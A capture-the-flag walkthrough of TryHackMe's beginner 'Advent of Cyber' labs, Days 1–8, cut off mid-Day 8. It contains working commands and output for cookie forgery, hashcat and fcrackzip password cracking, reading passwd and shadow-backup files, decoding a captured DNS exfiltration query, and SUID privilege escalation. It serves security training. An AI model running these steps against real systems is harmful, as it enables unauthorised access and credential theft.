# Advent of Cyber

Get started with Cyber Security in 25 Days - Learn the basics by doing a new, beginner friendly security challenge every day leading up to Christmas.

- [Advent of Cyber](https://tryhackme.com/room/25daysofchristmas)
- [](https://tryhackme.com/christmas)

## Appendix archive

Password: `1 kn0w 1 5h0uldn'7!`

## Introduction

Just before the lead up to Christmas, Santa’s company(The Best Festival Company) has been compromised by his nemesis(The Christmas Monster). Luckily, one of Santa’s elf team have a background in security. Can they recover all their systems before the lead up to Christmas?

It’s the evening of 30th November - the air in the arctic circle is filled with excitement, as every year. This year has been even smoother than previous years - Santa’s digitalisation program has made lives easier for everyone in the company. Elf McElferson, the CTO of the arctic circle, starts doing a couple of last minute checks; everything has to be operating successfully running up to Christmas. With her warm hot chocolate next to his desk, all she needs to do is open the health dashboard and grin at all the green lights. She enters the URL on the dashboard and leans in closer to the screen, anxiously waiting for confirmation. The page loads faster than expected and she gets the initial glimpse of all green. Wait, the first indicator moves to red, and every other one follows the same.

In less than a minute, she and all her colleagues receive the following email:

`Hey Crew! We know that this is the busiest time of your year. What a shame though - it looks like all of you are locked out of your systems and can’t do any work. Boo hoo for Christmas Santa’s Fav Nemesis, Christmas Monster`

McElferson jumps out of her seat and yells. This cannot be happening. How is she supposed to fix this - it’s only 25 days till Christmas and no one can do anything. She goes to the only person who knows about security on his team, Elf McSkidy(you), and asks them to use their l33t skills to fix this. They clearly have a big task ahead of themselves.

A new task will be revealed ever day, where each task will be independent from the previous one. These challenges will cover the following topics:

- Linux Security
- Web Application Security
- Network Security
- Reverse Engineering
- Forensics

The challenges are designed for beginners and assume no previous knowledge of security. For more information on Prizes, Swag and event details please check out the Christmas page.

By completing these challenges, you give your consent to give your email to CompTIA (the competition sponsors)

## Connect To Our Network

## Points don't matter

## Our Socials

## [Optional] Your own Kali Linux Machine

## [Day 1] Inventory Management

Elves needed a way to submit their inventory - have a web page where they submit their requests and the elf mcinventory can look at what others have submitted to approve their requests. It’s a busy time for mcinventory as elves are starting to put in their orders. mcinventory rushes into McElferson’s office.

_I don’t know what to do. We need to get inventory going. Elves can log on but I can’t actually authorise people’s requests! How will the rest start manufacturing what they want. _

McElferson calls you to take a look at the website to see if there’s anything you can do to help. Deploy the machine and access the website at `http://<your_machines_ip>:3000` - it can take up to 3 minutes for your machine to boot!

Supporting material for the challenge is [here](https://docs.google.com/document/d/1PHs7uRS1whLY9tgxH1lj-bnEVWtXPXpo45zWUlbknpU/edit?usp=sharing)!

1. What is the name of the cookie used for authentication?



`authid`

2. If you decode the cookie, what is the value of the fixed part of the cookie?

- [Base64](https://www.base64decode.org/)

`dGVzdHY0ZXI5bGwxIXNz`

`testv4er9ll1!ss`

`v4er9ll1!ss`

1. After accessing his account, what did the user mcinventory request?

`mcinventoryv4er9111!ss`

`bWNpbnZlbnRvcnl2NGVyOWxsMSFzcw%3D%3D`



`firewall`

## [Day 2] Arctic Forum

A big part of working at the best festival company is the social live! The elves have always loved interacting with everyone. Unfortunately, the christmas monster took down their main form of communication - the arctic forum!

Elf McForum has been sobbing away McElferson's office. How could the monster take down the forum! In an attempt to make McElferson happy, she sends you to McForum's office to help.

P.S. Challenge may a take up to 5 minutes to boot up and configure!

Access the page at http://[your-ip-here]:3000

Check out the supporting material [here](https://docs.google.com/document/d/1622ejYtCmLOS0zd16CyfhA1xgQk8l55gYWMY8fnpHfQ/edit?usp=sharing)!

1. What is the path of the hidden page?

```
gobuster dir -w /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt -u http://10.10.222.7:3000
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.222.7:3000
[+] Threads:        10
[+] Wordlist:       /usr/share/dirbuster/wordlists/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/09/30 21:22:09 Starting gobuster
===============================================================
/home (Status: 302)
/login (Status: 200)
/admin (Status: 302)
/Home (Status: 302)
/assets (Status: 301)
/css (Status: 301)
/Login (Status: 200)
/js (Status: 301)
/logout (Status: 302)
/sysadmin (Status: 200)
Progress: 5807 / 220561 (2.63%)^C
[!] Keyboard interrupt detected, terminating.
===============================================================
2020/09/30 21:22:31 Finished
===============================================================
```

`/sysadmin`

2. What is the password you found?

- [Google](https://www.google.com/search?q=Admin+Portal+Created+by+Arctic+Digital+Design)
- [Arctic Digital Design](https://github.com/ashu-savani/arctic-digital-design)

`defaultpass`

3. What do you have to take to the 'partay'


`Hey all - Please don't forget to BYOE(Bring Your Own Eggnog) for the partay!!`

`Eggnog`

## [Day 3] Evil Elf

An Elf-ministrator, has a network capture file from a computer and needs help to figure out what went on! Are you able to help?

Supporting material for the challenge can be found [here](https://docs.google.com/document/d/1ZVsOtW7mM-4neZZ4QtYCEp__exiMrvlUCXTxhB-zyxk/edit?usp=sharing)!

1. Whats the destination IP on packet number 998?



`63.32.89.195`

2. What item is on the Christmas list?



`ps4`

3. Crack buddy's password!



`buddy:$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:18233:0:99999:7:::`

`hashcat -a 0 -m 1800 buddy.hash /usr/share/wordlists/rockyou.txt --force`

```
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Single-Hash
* Single-Salt
* Uses-64-Bit

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=4 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=1 -D DGST_R2=2 -D DGST_R3=3 -D DGST_ELEM=16 -D KERN_TYPE=1800 -D _unroll'
* Device #1: Kernel m01800-pure.021f233f.kernel not found in cache! Building may take a while...
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

$6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0A1sUc/6SUd7UvekBOtSnSyBwk3vCDqBhrgxQpkdsNN6aYP1:rainbow

Session..........: hashcat
Status...........: Cracked
Hash.Type........: sha512crypt $6$, SHA512 (Unix)
Hash.Target......: $6$3GvJsNPG$ZrSFprHS13divBhlaKg1rYrYLJ7m1xsYRKxlLh0...N6aYP1
Time.Started.....: Wed Sep 30 21:32:46 2020 (4 secs)
Time.Estimated...: Wed Sep 30 21:32:50 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:      159 H/s (9.68ms) @ Accel:256 Loops:64 Thr:1 Vec:4
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 512/14344385 (0.00%)
Rejected.........: 0/512 (0.00%)
Restore.Point....: 0/14344385 (0.00%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:4992-5000
Candidates.#1....: 123456 -> letmein

Started: Wed Sep 30 21:31:52 2020
Stopped: Wed Sep 30 21:32:51 2020
```

`rainbow`

## [Day 4] Training

With the entire incident, McElferson has been very stressed.

We need all hands on deck now

To help resolve things faster, she has asked you to help the new intern(mcsysadmin) get familiar with Linux.
Access the machine via SSH on port 22 using the command

ssh mcsysadmin@[your-machines-ip]

username: mcsysadmin
password: bestelf1234

Check out the supporting material [here](https://docs.google.com/document/d/1CpwM_MdHgRqlPSe4eCC_-rVgi8F1xh88PKOySTRSkxU/edit?usp=sharing)

1. How many visible files are there in the home directory(excluding ./ and ../)?

```
[mcsysadmin@ip-10-10-19-195 ~]$ ls -la
total 136
drwx------ 2 mcsysadmin mcsysadmin   199 Dec  4  2019 .
drwxr-xr-x 4 root       root          40 Dec  4  2019 ..
-rw------- 1 mcsysadmin mcsysadmin   119 Dec  4  2019 .bash_history
-rw-r--r-- 1 mcsysadmin mcsysadmin    18 Jul 27  2018 .bash_logout
-rw-r--r-- 1 mcsysadmin mcsysadmin   193 Jul 27  2018 .bash_profile
-rw-r--r-- 1 mcsysadmin mcsysadmin   231 Jul 27  2018 .bashrc
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file1
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file2
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file3
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file4
-rw-rw-r-- 1 mcsysadmin mcsysadmin     8 Dec  4  2019 file5
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file6
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file7
-rw-rw-r-- 1 mcsysadmin mcsysadmin 13545 Dec  4  2019 file8
-rw------- 1 mcsysadmin mcsysadmin  1024 Dec  4  2019 .rnd
```

`8`

2. What is the content of file5?

```
[mcsysadmin@ip-10-10-19-195 ~]$ cat file5
recipes
```

`recipes`

3. Which file contains the string ‘password’?

```
[mcsysadmin@ip-10-10-19-195 ~]$ grep -l -e "password" -f *
file6
```

`file6`

4. What is the IP address in a file in the home folder?

```
[mcsysadmin@ip-10-10-19-195 ~]$ cat * | grep -Eo "([0-9]{1,3}[\.]){3}[0-9]{1,3}"
10.0.0.05
```

`10.0.0.05`

5. How many users can log into the machine?

```
[mcsysadmin@ip-10-10-19-195 ~]$ ls -la /home
total 0
drwxr-xr-x  4 root       root        40 Dec  4  2019 .
dr-xr-xr-x 18 root       root       257 Dec  4  2019 ..
drwx------  3 ec2-user   ec2-user    95 Dec  4  2019 ec2-user
drwx------  2 mcsysadmin mcsysadmin 199 Dec  4  2019 mcsysadmin
```

```
[mcsysadmin@ip-10-10-19-195 ~]$ cat /etc/passwd
root:x:0:0:root:/root:/bin/bash
bin:x:1:1:bin:/bin:/sbin/nologin
daemon:x:2:2:daemon:/sbin:/sbin/nologin
adm:x:3:4:adm:/var/adm:/sbin/nologin
lp:x:4:7:lp:/var/spool/lpd:/sbin/nologin
sync:x:5:0:sync:/sbin:/bin/sync
shutdown:x:6:0:shutdown:/sbin:/sbin/shutdown
halt:x:7:0:halt:/sbin:/sbin/halt
mail:x:8:12:mail:/var/spool/mail:/sbin/nologin
operator:x:11:0:operator:/root:/sbin/nologin
games:x:12:100:games:/usr/games:/sbin/nologin
ftp:x:14:50:FTP User:/var/ftp:/sbin/nologin
nobody:x:99:99:Nobody:/:/sbin/nologin
systemd-network:x:192:192:systemd Network Management:/:/sbin/nologin
dbus:x:81:81:System message bus:/:/sbin/nologin
rpc:x:32:32:Rpcbind Daemon:/var/lib/rpcbind:/sbin/nologin
libstoragemgmt:x:999:997:daemon account for libstoragemgmt:/var/run/lsm:/sbin/nologin
sshd:x:74:74:Privilege-separated SSH:/var/empty/sshd:/sbin/nologin
rpcuser:x:29:29:RPC Service User:/var/lib/nfs:/sbin/nologin
nfsnobody:x:65534:65534:Anonymous NFS User:/var/lib/nfs:/sbin/nologin
ec2-instance-connect:x:998:996::/home/ec2-instance-connect:/sbin/nologin
postfix:x:89:89::/var/spool/postfix:/sbin/nologin
chrony:x:997:995::/var/lib/chrony:/sbin/nologin
tcpdump:x:72:72::/:/sbin/nologin
ec2-user:x:1000:1000:EC2 Default User:/home/ec2-user:/bin/bash
mcsysadmin:x:1001:1001::/home/mcsysadmin:/bin/bash
```

`+ root`

`3`

6. What is the sha1 hash of file8?

```
[mcsysadmin@ip-10-10-19-195 ~]$ sha1sum file8
fa67ee594358d83becdd2cb6c466b25320fd2835  file8
```

`fa67ee594358d83becdd2cb6c466b25320fd2835`

7. What is mcsysadmin’s password hash?

```
mcsysadmin@ip-10-10-19-195 ~]$ locate shadow | grep bak | (find / -type f -name *.bak) 2> /dev/null
/etc/nsswitch.conf.bak
/var/shadow.bak
```

```
[mcsysadmin@ip-10-10-19-195 ~]$ cat /var/shadow.bak
root:*LOCK*:14600::::::
bin:*:17919:0:99999:7:::
daemon:*:17919:0:99999:7:::
adm:*:17919:0:99999:7:::
lp:*:17919:0:99999:7:::
sync:*:17919:0:99999:7:::
shutdown:*:17919:0:99999:7:::
halt:*:17919:0:99999:7:::
mail:*:17919:0:99999:7:::
operator:*:17919:0:99999:7:::
games:*:17919:0:99999:7:::
ftp:*:17919:0:99999:7:::
nobody:*:17919:0:99999:7:::
systemd-network:!!:18218::::::
dbus:!!:18218::::::
rpc:!!:18218:0:99999:7:::
libstoragemgmt:!!:18218::::::
sshd:!!:18218::::::
rpcuser:!!:18218::::::
nfsnobody:!!:18218::::::
ec2-instance-connect:!!:18218::::::
postfix:!!:18218::::::
chrony:!!:18218::::::
tcpdump:!!:18218::::::
ec2-user:!!:18234:0:99999:7:::
mcsysadmin:$6$jbosYsU/$qOYToX/hnKGjT0EscuUIiIqF8GHgokHdy/Rg/DaB.RgkrbeBXPdzpHdMLI6cQJLdFlS4gkBMzilDBYcQvu2ro/:18234:0:99999:7:::
```

`$6$jbosYsU/$qOYToX/hnKGjT0EscuUIiIqF8GHgokHdy/Rg/DaB.RgkrbeBXPdzpHdMLI6cQJLdFlS4gkBMzilDBYcQvu2ro/`

## [Day 5] Ho-Ho-Hosint

Elf Lola is an elf-of-interest. Has she been helping the Christmas Monster? lets use all available data to find more information about her! We must protect The Best Festival Company!

Resources available [here](https://blog.tryhackme.com/ho-ho/).

1. What is Lola's date of birth? Format: Month Date, Year(e.g November 12, 2019)

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ exiftool thegrinch.jpg
ExifTool Version Number         : 12.06
File Name                       : thegrinch.jpg
Directory                       : .
File Size                       : 69 kB
File Modification Date/Time     : 2020:09:30 21:49:31+02:00
File Access Date/Time           : 2020:09:30 21:49:48+02:00
File Inode Change Date/Time     : 2020:09:30 21:49:48+02:00
File Permissions                : rw-r--r--
File Type                       : JPEG
File Type Extension             : jpg
MIME Type                       : image/jpeg
JFIF Version                    : 1.01
Resolution Unit                 : None
X Resolution                    : 1
Y Resolution                    : 1
XMP Toolkit                     : Image::ExifTool 10.10
Creator                         : JLolax1
Image Width                     : 642
Image Height                    : 429
Encoding Process                : Progressive DCT, Huffman coding
Bits Per Sample                 : 8
Color Components                : 3
Y Cb Cr Sub Sampling            : YCbCr4:2:0 (2 2)
Image Size                      : 642x429
Megapixels                      : 0.275
```

\*[@JLolax1](https://twitter.com/jlolax1)


`December 29, 1900`

2. What is Lola's current occupation?

`Santa's Helpers`

3. What phone does Lola make?

`iPhone X`

4. What date did Lola first start her photography? Format: dd/mm/yyyy

- [WayBackMachine](https://web.archive.org/web/20191023204639/https://lolajohnson1998.wordpress.com/)


23/10/2014 - 5 years

`23/10/2014`

5. What famous woman does Lola have on her web page?


`ada lovelace`

## [Day 6] Data Elf-iltration

"McElferson! McElferson! Come quickly!" yelled Elf-ministrator.

"What is it Elf-ministrator?" McElferson replies.

"Data has been stolen off of our servers!" Elf-ministrator says!

"What was stolen?" She replied.

"I... I'm not sure... They hid it very well, all I know is something is missing" they replied.

"I know just who to call" said McElferson...

Check out the supporting material [here](https://docs.google.com/document/d/17vU134ZfKiiE-DgiynrO0MySo4_VCGCpw2YJV_Kp3Pk/edit?usp=sharing).

Challenge and supporting material created by [Sq00ky](https://twitter.com/MrS1n1st3r).

1. What data was exfiltrated via DNS?

`12 1.794784 192.168.1.107 1.1.1.1 DNS 135 Standard query 0xaafe A 43616e64792043616e652053657269616c204e756d6265722038343931.holidaythief.com`

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ echo 43616e64792043616e652053657269616c204e756d6265722038343931 | xxd -r -p
Candy Cane Serial Number 8491
```

`Candy Cane Serial Number 8491`

2. What did Little Timmy want to be for Christmas?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ fcrackzip -vbDp /usr/share/wordlists/rockyou.txt christmaslists.zip
found file 'christmaslistdan.tx', (size cp/uc     91/    79, flags 9, chk 9a34)
found file 'christmaslistdark.txt', (size cp/uc     91/    82, flags 9, chk 9a4d)
found file 'christmaslistskidyandashu.txt', (size cp/uc    108/   116, flags 9, chk 9a74)
found file 'christmaslisttimmy.txt', (size cp/uc    105/   101, flags 9, chk 9a11)
possible pw found: december ()
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ unzip christmaslists.zip
Archive:  christmaslists.zip
[christmaslists.zip] christmaslistdan.tx password:
 extracting: christmaslistdan.tx
  inflating: christmaslistdark.txt
  inflating: christmaslistskidyandashu.txt
  inflating: christmaslisttimmy.txt
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ cat christmaslisttimmy.txt
Dear Santa,
For Christmas I would like to be a PenTester! Not the Bic kind!
Thank you,
Little Timmy.
```

`PenTester!`

3. What was hidden within the file?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ steghide extract -sf TryHackMe.jpg
Enter passphrase:
wrote extracted data to "christmasmonster.txt".
```

`RFC527`

## [Day 7] Skilling Up

Previously, we saw mcsysadmin learning the basics of Linux. With the on-going crisis, McElferson has been very impressed and is looking to push mcsysadmin to the security team. One of the first things they have to do is look at some strange machines that they found on their network.

Check out the supporting material [here](https://docs.google.com/document/d/1q0FziVZM3zCWhcgtPpljVPzkBX0fMAh6ebrXVM5rg08/edit?usp=sharing).

1. how many TCP ports under 1000 are open?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -sS -sC -sV -O -oN nmap_10.10.192.176.log 10.10.192.176
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 18:33 CEST
Nmap scan report for 10.10.192.176
Host is up (0.030s latency).
Not shown: 997 closed ports
PORT    STATE SERVICE VERSION
22/tcp  open  ssh     OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 2c:30:de:f3:ca:2e:e9:68:21:00:c5:2a:e7:6d:a7:05 (RSA)
|   256 59:cc:db:72:e8:16:72:c9:dd:ad:ed:d3:16:5c:2d:49 (ECDSA)
|_  256 4e:19:10:5e:b4:92:a4:5e:eb:88:a8:37:1a:df:6e:da (ED25519)
111/tcp open  rpcbind 2-4 (RPC #100000)
| rpcinfo:
|   program version    port/proto  service
|   100000  2,3,4        111/tcp   rpcbind
|   100000  2,3,4        111/udp   rpcbind
|   100000  3,4          111/tcp6  rpcbind
|   100000  3,4          111/udp6  rpcbind
|   100024  1          41806/udp   status
|   100024  1          48499/tcp   status
|   100024  1          52483/udp6  status
|_  100024  1          56019/tcp6  status
999/tcp open  http    SimpleHTTPServer 0.6 (Python 3.6.8)
|_http-server-header: SimpleHTTP/0.6 Python/3.6.8
|_http-title: Directory listing for /
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/1%OT=22%CT=1%CU=44142%PV=Y%DS=2%DC=I%G=Y%TM=5F7604E
OS:0%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=107%TI=Z%CI=Z%II=I%TS=A)OPS
OS:(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508ST1
OS:1NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)ECN
OS:(R=Y%DF=Y%T=FF%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=FF%S=O%A=S+%F=A
OS:S%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R
OS:=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=FF%W=0%S=A%A=Z%F
OS:=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=FF%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%
OS:T=FF%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=FF%CD
OS:=S)

Network Distance: 2 hops

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 30.65 seconds
```

`3`

2. What is the name of the OS of the host?

`linux`

3. What version of SSH is running?

`22/tcp open ssh OpenSSH 7.4 (protocol 2.0)`

4. What is the name of the file that is accessible on the server you found running?

- [Directory listing for /](http://10.10.192.176:999/)



`interesting.file`

## [Day 8] SUID Shenanigans

Elf Holly is suspicious of Elf-ministrator and wants to get onto the root account of a server he setup to see what files are on his account. The problem is, Holly is a low-privileged user.. can you escalate her privileges and hack your way into the root account?

Deploy and SSH into the machine.
Username: holly
Password: tuD@4vt0G\*TU

SSH is not running on the standard port.. You might need to nmap scan the machine to find which port SSH is running on.
`nmap <machine_ip> -p <start_port>-<end_port>`

Read the supporting materials [here](https://blog.tryhackme.com/linux-privilege-escalation-suid/).

1. What port is SSH running on?

```
kali@kali:~/CTFs/tryhackme/Advent of Cyber$ sudo nmap -A -p-  -O -oN nmap_10.10.178.163.log 10.10.178.163
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 18:42 CEST
Nmap scan report for 10.10.178.163
Host is up (0.029s latency).
Not shown: 65534 closed ports
PORT      STATE SERVICE VERSION
65534/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.8 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 6a:c8:77:ee:24:4d:f1:ed:e0:04:0a:90:54:d1:fb:d9 (RSA)
|   256 d7:2d:85:4c:da:ab:34:e1:8c:96:79:27:e9:27:6b:22 (ECDSA)
|_  256 85:05:da:2c:2c:ba:f0:9d:cf:fd:fa:b0:d7:e6:ef:36 (ED25519)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.80%E=4%D=10/1%OT=65534%CT=1%CU=36861%PV=Y%DS=2%DC=T%G=Y%TM=5F76
OS:072C%P=x86_64-pc-linux-gnu)SEQ(SP=102%GCD=1%ISR=106%TI=Z%CI=I%II=I%TS=8)
OS:OPS(O1=M508ST11NW6%O2=M508ST11NW6%O3=M508NNT11NW6%O4=M508ST11NW6%O5=M508
OS:ST11NW6%O6=M508ST11)WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
OS:ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW6%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%
OS:F=AS%RD=0%Q=)T2(R=N)T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T
OS:5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=
OS:Z%F=R%O=%RD=0%Q=)T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF
OS:=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40
OS:%CD=S)

Network Distance: 2 hops
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

TRACEROUTE (using port 1723/tcp)
HOP RTT      ADDRESS
1   28.71 ms 10.8.0.1
2   28.93 ms 10.10.178.163

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 68.16 seconds
```

`65534`

2. Find and run a file as igor. Read the file /home/igor/flag1.txt

```
ssh holly@10.10.178.163 -p 65534

holly@ip-10-10-178-163:~$ find / -user igor -perm -4000 -exec ls -ldb {} \; 2> /dev/null
-rwsr-xr-x 1 igor igor 221768 Feb  7  2016 /usr/bin/find
-rwsr-xr-x 1 igor igor 2770528 Mar 31  2016 /usr/bin/nmap

holly@ip-10-10-178-163:~$ find foo -exec cat /home/igor/flag1.txt \;
THM{d3f0708bdd9accda7f937d013eaf2cd8}
```

3. Find another binary file that has the SUID bit set. Using this file, can you become the root user and read the /root/flag2.txt file?

```
holly@ip-10-10-178-163:~$ find / -user root -perm -4000 -exec ls -ldb {} \; 2>>/dev/null | grep "/bin"
-rwsr-xr-x 1 root root 44168 May  7  2014 /bin/ping
